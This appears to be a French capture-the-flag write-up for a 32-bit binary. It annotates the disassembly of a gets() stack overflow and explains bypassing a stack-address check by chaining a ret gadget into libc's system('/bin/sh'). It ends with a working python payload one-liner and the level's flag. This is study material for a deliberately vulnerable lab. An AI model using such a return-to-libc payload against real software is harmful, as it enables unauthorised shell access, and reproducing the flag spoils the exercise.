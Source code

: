 ```s
080484d4 <p>:
 80484d4:	55                   	push   ebp
 80484d5:	89 e5                	mov    ebp,esp
 80484d7:	83 ec 68             	sub    esp,0x68 ; 104
 80484da:	a1 60 98 04 08       	mov    eax,ds:0x8049860 ; une fonction (stdout@@GLIBC_2.0)
 80484df:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt> ; fflush(stdout)
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c] ; On prend un pointeur sur la stack stack - 76
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt> ; on rempli du coup le pointeur vers les 76B.
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4] ; 80 à 84e char de notre buffer.
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax ; mov l'adresse dans ebp-12
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000 ; eax & 0xb0000000 == 0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    eax,0x8048620   ; (%p)\n (objdump -s) -- donne le ptr stocké à partir ebp+0x4.
 804850c:	8b 55 f4             	mov    edx,DWORD PTR [ebp-0xc] ; prend l'adresse stocké grâce au buffer overflow
 804850f:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx ; l'envoie en tant que premier argument variadique de printf
 8048513:	89 04 24             	mov    DWORD PTR [esp],eax ; puis move eax dans la stack pour être utilisé en format de printf.
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt> ; exit 1
 8048527:	8d 45 b4             	lea    eax,[ebp-0x4c]
 804852a:	89 04 24             	mov    DWORD PTR [esp],eax
 804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt> ; puts la clé (qui est notre stdin) ?
 8048532:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048535:	89 04 24             	mov    DWORD PTR [esp],eax
 8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
 804853d:	c9                   	leave
 804853e:	c3                   	ret


0804853f <main>:
 804853f:	55                   	push   ebp
 8048540:	89 e5                	mov    ebp,esp
 8048542:	83 e4 f0             	and    esp,0xfffffff0
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave  
 804854b:	c3                   	ret    
 804854c:	90                   	nop
 804854d:	90                   	nop
 804854e:	90                   	nop
 804854f:	90                   	nop
```

La difficulté ici, est d'écrire des codes d'opérations à exécuter (donc injecter du code), dans la mémoire chargée de l'ordinateur, et remplacer la valeur de retour par le pointeur sur ce code.
Mais, on a une sécurité à bypass. C'est le fameux `eax & 0xb0000000 == 0xb0000000`. On est quasiment sûr que notre exploit sera contenu à cet adresse.

https://shell-storm.org/shellcode/index.html
1. On overflow.
2. On essaie d'override des instructions avec un shellcode `execve("/bin/sh")`.


String `/bin/sh` présente dans la libc.so a l'offset `0x160c58` (`objdump -s`)
```
(gdb) info proc map # Get the start address
(gdb) x/s 0xb7e2c000+0x160c58
0xb7f8cc58:	 "/bin/sh"
```

Donc on va overflow deux adresses. La première sera l'adresse de `ret`, afin de passer au destack de l'adresse suivante n'étant pas soumise à vérification.
La seconde adresse va pointer vers la fonction `system` comprise dans la `libc`, puis, on va ajouter l'adresse de retour de `system` dans la stack, et enfin, on pourra mettre le premier argument pour `system`, c'est-à-dire, la chaine de caractère trouvée dans la `libc`.

`python -c 'print("A"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\x90\x90\x90\x90" + "\x58\xcc\xf8\xb7")'`

Flag: `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`